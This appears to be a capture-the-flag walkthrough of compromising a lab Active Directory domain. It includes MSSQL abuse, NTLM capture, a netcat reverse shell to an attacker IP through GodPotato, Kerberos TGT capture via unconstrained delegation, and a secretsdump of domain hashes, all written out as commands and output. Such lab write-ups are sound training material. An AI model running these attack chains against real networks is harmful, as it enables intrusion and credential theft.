49926/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
53080/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
61607/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2022|2012|2016 (88%)
OS CPE: cpe:/o:microsoft:windows_server_2022 cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_server_2016
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Microsoft Windows Server 2022 (88%), Microsoft Windows Server 2012 R2 (85%), Microsoft Windows Server 2016 (85%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.98%E=4%D=9/16%OT=53%CT=%CU=%PV=Y%DS=2%DC=T%G=N%TM=6AA9EAE2%P=x86_64-pc-linux-gnu)
SEQ(SP=100%GCD=1%ISR=104%TI=I%II=I%SS=S%TS=A)
SEQ(SP=105%GCD=1%ISR=108%TI=I%TS=A)
OPS(O1=M542NW8ST11%O2=M542NW8ST11%O3=M542NW8NNT11%O4=M542NW8ST11%O5=M542NW8ST11%O6=M542ST11)
WIN(W1=FFFF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FFFF)
ECN(R=Y%DF=Y%TG=80%W=FFFF%O=M542NW8NNS%CC=Y%Q=)
T1(R=Y%DF=Y%TG=80%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=N)
U1(R=N)
IE(R=Y%DFI=N%TG=80%CD=Z)

Uptime guess: 0.006 days (since Wed Sep 16 01:54:17 2026)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=256 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 19428/tcp): CLEAN (Timeout)
|   Check 2 (port 30148/tcp): CLEAN (Timeout)
|   Check 3 (port 4417/udp): CLEAN (Timeout)
|   Check 4 (port 33572/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-time: 
|   date: 2026-09-16T01:02:50
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
|_clock-skew: mean: 0s, deviation: 0s, median: 0s

TRACEROUTE (using port 53/tcp)
HOP RTT       ADDRESS
1   102.35 ms 10.10.16.1
2   102.54 ms 10.129.72.112

```

On further enumeration the given user credential  have an access to mssql , smb and ldap akso we  tried enumerate other users using with `--users` module but found nothing much useful . also enumerated the smb share which were default ones 


from the bloodhound enumeration the user is member of couple of group we have multiple path from here look for AD CS vulnerablities or MSSQL 

## MSSQL Server

```bash
┌──(penguin㉿0X0F)-[~/CAPE_Boxes/DarkZero/Bloodhound]
└─$ impacket-mssqlclient darkzero.htb/john.w:'RFulUtONCOL!'@10.129.72.112 -windows-auth
```
From the sql server we trying force authenticate , so our responder can capture the NTLMv2 


and use responder on `Terminal 2` to capture the hash

```bash
┌──(penguin㉿0X0F)-[~/CAPE_Boxes/DarkZero/Bloodhound]
└─$ sudo responder -I tun0
```


tried to crack the hash with hashcat which was unsuccessful
since we coundn't crack the hash we can relay the hash try to escalate the user but before that we  need to check if smb signing disabled or not which we can use nxc : )

so the smb signing and ldap signing is enforced which makes coercion out of our checklist


Also checked for any delegation but their wasn't any so lets move to our next step !! 


further enumeration on sql server we found an link server which is DC02 and running as dc01_sql_Svc user and lets see if we can execute a command
 


Lets get an reverse shell using revshell.com 

`Terminal 1`
```bash
┌──(penguin㉿0X0F)-[~/CAPE_Boxes/DarkZero]
└─$ rlwrap -cAr nc -lnvp 5555
```

`Terminal 2`


Now we have the access DC02 lets further enumerate from here


as we can see the sql service account doesn't have any viable privilege enable or given to this domain account however i found multiple vulnerabilties cuz lack of hotfixes

```bash
┌──(penguin㉿0X0F)-[~/Downloads/BloodHound/Collectors/GhostPack/wesng]
└─$ python3 wes.py --update
Windows Exploit Suggester 1.06 ( https://github.com/bitsadmin/wesng/ )
[+] Updating definitions
[+] Obtained definitions created at 20260913

```

we gonna save the systeminfo from victim machine to our attacker machine to find the vuln

```bash
┌──(penguin㉿0X0F)-[~/Downloads/BloodHound/Collectors/GhostPack/wesng]
└─$ python3 wes.py systeminfo.txt --impact "Elevation of Privilege" --exploits-only
```

We can find use one of those CVE - PoC to get adminstrator shell but beyond that what i found was much more intersting and can be used 
https://itm4n.github.io/localservice-privileges/

i tried to use the exploit from the blog where we can try to restore the privliege by creating an task sechdeuler to machine computer with access token of first state of account which would `SeImperosonatePrivelege`

however you can see the task cannot being created ciz the session we have is a domain computer not an workstation and which leads to research on similiar vulnerablities where an service account can restore its previous priv if we can 

After more searching on google found the sharing logon session with service account can be exploited to give an privelege the logon session by creating an smb pipeline to RPCSS service process. this process created when an machine is rebooted and later then service accounts are stripped from the priveleges 
https://www.tiraniddo.dev/2020/04/sharing-logon-session-little-too-much.html

Checkout his previous blog how to setup an service account with admin or NT access 

https://github.com/googleprojectzero/sandbox-attacksurface-analysis-tools/tree/main/NtObjectManager

we need to use this Powershell module to interact with the kerenel create an SMB pipeline between the process

After transfering the zip file to host machine we can extract it and import to our current session

```Powershell
PS C:\Users\Public> Expand-Archive NtObjectManager.zip
PS C:\Users\Public> ls


    Directory: C:\Users\Public


Mode                 LastWriteTime         Length Name                                                                 
----                 -------------         ------ ----                                                                 
d-r---         7/29/2025  12:57 PM                Documents                                                            
d-r---          5/8/2021   8:15 AM                Downloads                                                            
d-r---          5/8/2021   8:15 AM                Music                                                                
d-----         9/16/2026  11:23 PM                NtObjectManager                                                      
d-r---          5/8/2021   8:15 AM                Pictures                                                             
d-r---          5/8/2021   8:15 AM                Videos                                                               
-a----         9/16/2026  10:56 PM          87040 CVE.exe                                                              
-a----         9/16/2026  11:04 PM          36864 FullPower.exe                                                        
-a----         9/16/2026  11:11 PM        5875180 NtObjectManager.zip                                                  
-a----         9/16/2026  10:59 PM          22016 watson.exe   
```

So let's follow the blog but we need to import the module : )


Now we have `SeImpersonatePrivilege` Privilege we can use `godPotatoe` and `nc` to get reverse shell

After transferring file we can use GodPotatoe and netcat to get an shell as machine account

```Powershell
PS C:\Users\Public\NtObj\2.0.1> New-Win32Process -Commandline 'C:\Users\Public\gp.exe -cmd "C:\Users\Public\nc.exe 10.10.17.176 4444 -e cmd"' -token $token2
```

using netcat  to caputer the reverse shell
`Terminal 2`
```bash
┌──(penguin㉿0X0F)-[~/Downloads/BloodHound/Collectors/GhostPack]
└─$ rlwrap -cAr nc -lnvp 4444
listening on [any] 4444 ...
```

We can grab the user flag now. To move onto DC01 we come back to what enumeration showed earlier: `john.w` is a domain account that can reach DC01's MSSQL service but has no command execution on DC01 itself. That's fine we don't need code exec on DC01, we just need one of its Kerberos tickets.

we have two options from here 
 Capture the TGS for the SQL service as `DC01$` authenticates into DC02. Since that ticket is encrypted with `DC01$`'s key, we can rewrite the SPN (`sname`) to `cifs/` or `http/` (WinRM) and reach those services on DC01 the key decrypts them all the same.

Capture `DC01$`'s TGT directly. Cleaner, because a TGT lets us request *any* service on DC01 ourselves  but it only gets cached if it comes across as forwardable.

We'll take the TGT route, so let's authenticate and set up to capture it.
```bash
┌──(penguin㉿0X0F)-[~/Downloads/BloodHound/Collectors/GhostPack]
└─$ nxc ldap 10.129.58.230 -u john.w -p 'RFulUtONCOL!' --trusted-for-delegation
LDAP        10.129.58.230   389    DC01             [*] Windows 11 / Server 2025 Build 26100 (name:DC01) (domain:darkzero.htb) (signing:Enforced) (channel binding:When Supported)
LDAP        10.129.58.230   389    DC01             [+] darkzero.htb\john.w:RFulUtONCOL! 
LDAP        10.129.58.230   389    DC01             DC01$
```

Also we know that domain controller have unconstraied delegation  by default .DC02 is a domain controller, so it'll cache the forwardable TGT of anything that Kerberos-auths to it.

After transferring rubeus we can run it in monitor mode
With monitor running on DC02, we coerce DC01 to authenticate to us. Back in the MSSQL session on DC01, we point xp_dirtree at DC02 by hostname

`Terminal 1 - MSSQL`
```bash
SQL (darkzero\john.w  guest@master)> EXEC xp_dirtree '\\DC02.darkzero.ext\share';
```

`Terminal 2 - DC02 shell`
```Powershell
PS C:\Users\Public> .\Rubeus.exe monitor /interval:5 /nowrap
```


their we go the TGT ticket now we can request any service on dc01 now we save the file as kirbi  after saving the file decode base64 file 

```bash
┌──(penguin㉿0X0F)-[~/CAPE_Boxes/DarkZero]
└─$ base64 -d dc01.kirbi > dc01_decoded.kirbi
```

then convert it into .ccache
```bash
┌──(penguin㉿0X0F)-[~/CAPE_Boxes/DarkZero]
└─$ impacket-ticketConverter dc01_decoded.kirbi dc01.ccache
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] converting kirbi to ccache...
[+] done
```

```bash
┌──(penguin㉿0X0F)-[~/CAPE_Boxes/DarkZero]
└─$ export KRB5CCNAME=dc01.ccache

┌──(penguin㉿0X0F)-[~/CAPE_Boxes/DarkZero]
└─$ impacket-secretsdump -k -no-pass DC01.darkzero.htb -just-dc-ntlm
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:5917507bdf2ef2c2b0a869a1cba40726:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:64f4771e4c60b8b176c3769300f6f3f7:::
john.w:2603:aad3b435b51404eeaad3b435b51404ee:44b1b5623a1446b5831a7b3a4be3977b:::
DC01$:1000:aad3b435b51404eeaad3b435b51404ee:d02e3fe0986e9b5f013dad12b2350b3a:::
darkzero-ext$:2602:aad3b435b51404eeaad3b435b51404ee:4eb6f201affa3bc40fc0d80cfd8da8f6:::
[*] Cleaning up... 
```

then we can use evil winrm to login with NTLM hashes or serivice ticket  : )  

